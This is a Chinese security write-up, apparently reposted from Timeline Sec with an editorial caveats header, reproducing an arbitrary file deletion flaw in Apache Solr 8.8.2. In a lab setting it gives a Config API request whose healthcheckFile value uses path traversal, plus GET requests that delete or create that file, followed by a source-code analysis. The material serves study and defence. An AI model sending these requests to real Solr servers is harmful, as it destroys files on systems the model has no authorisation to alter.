





# Apache Solr -- 8-8-2 任意文件删除漏洞复现

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Config API可修改handler，进程对目标文件具有写删权限；演示8.8.2 Windows
- 证据范围：文件删除/创建与源码吻合，但无需把IOException捕获误作安全防护或漏洞免责依据。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- IOException兜底不阻止未授权文件删除，修复理由错误
- <=8.8.2无版本边界来源，需要标实测版本与配置风险
- 示例JSON注释及尾逗号应说明Solr解析器容忍度，不能当标准JSON
- 第3步应访问新handler而非config API，/test与/test1名称不一致
- 必须警示删除不可逆/重建改变内容与mtime、残留handler；无需运行破坏性验证

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/JXBiQR3q7ykITVFBwm_9Vg)

**上方蓝色字体关注我们，一起学安全！**

**作者：🐟****@Timeline Sec  
**

**本文字数：949**

**阅读时长：3～4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

_Solr_ 是一个独立的企业级搜索应用服务器，它对外提供类似于 Web-service 的 API 接口。用户可以通过 http 请求，向搜索引擎服务器提交一定格式的 XML 文件，生成索引；也可以通过 Http Get 操作提出查找请求，并得到 XML 格式的返回结果。

**0x02 漏洞概述**  

  

这是个 "任意" 文件删除漏洞, 可以删除 Files.delete() 能删的任何文件。

**0x03 影响版本**  

  

Solr <= 8.8.2

**0x04 环境搭建**  

  

1、先在官网上下个 8.8.2 的 Solr 的安装包, 我这里为了方便就装个 Windows 版的  

```
https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/8.8.2/
```

2、开一个有 core 的实例, 我这里用的是 DataImportHandler 的范例配置，进入 bin 目录下执行  

```
solr.cmd -e dih
```

访问：http://IP:8983/solr/#/

  

**0x05 漏洞复现**  

  

1、在 C:\Windows\Temp \ 下新建一个 test.txt，图有误  



2、向任意 core 的 config API 发送一个 POST 包, 例如 /solr/db/config 或者 /solr/solr/config 之类的  

```
{
  "add-requesthandler": {
    "name": "/test1", // 这里填 RequestHandler 的路径
    "class":"solr.PingRequestHandler",
    "healthcheckFile":"../../../../../../../../../../../../../Windows/Temp/test.txt",
  }
}
```



2、访问  

```
http://172.16.255.2:8983/solr/db/config/overlay?omitHeader=true
```

检查是否创建成功  



3、向之前发送包的 config API 发送一个 GET 请求, 参数为 action=DISABLE 例如：/solr/db/test1?action=DISABLE  



这时会删除之前设置的文件, 同理 action=ENABLE 会生成之前设置的同名文件, 里面写的是一串 healthcheck 信息. 注意 /test 是之前设置过的路径

**0x06 漏洞分析**  

  

很明显这个漏洞源自于 PingRequestHandler, 当一个 Config API POST 请求被提交之后, Solr 先是执行 handlePOST 函数, 经过一堆 load 和 get 之后会初始化一个 PingRequestHandler

```
public void handleRequestBody(SolrQueryRequest req, SolrQueryResponse rsp) throws Exception {
    ...
    if ("POST".equals(httpMethod)) {
      ...
      try {
        command.handlePOST();
      }
      ...
    }
  }
```

然后这个 PingRequestHandler 在得到 GET 指令之后会直接执行 java.nio.file.Files 修改文件的操作而不检查文件的路径信息

```
protected void handleEnable(boolean enable) throws SolrException {
    ...
    if ( enable ) {
      try {
        // write out when the file was created
        FileUtils.write(healthcheck, Instant.now().toString(), "UTF-8");
      } 
      ...
    } else {
      try {
        Files.deleteIfExists(healthcheck.toPath());
      }
      ...
    }
  }
```

**0x07 修复方式**  

  

1、官方没有修复建议, 毕竟 Files.delete() 有 IOException 兜底，不过可以为 Solr 配置身份校验插件, 从而避免任意用户修改 config；  

2、Config API 这种东西就应该给配置个身份验证, 并且也不应该对外开放。

```
参考链接：
```

https://mp.weixin.qq.com/s/dECH74n5qjrWT9lok8IkPQ


  


**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
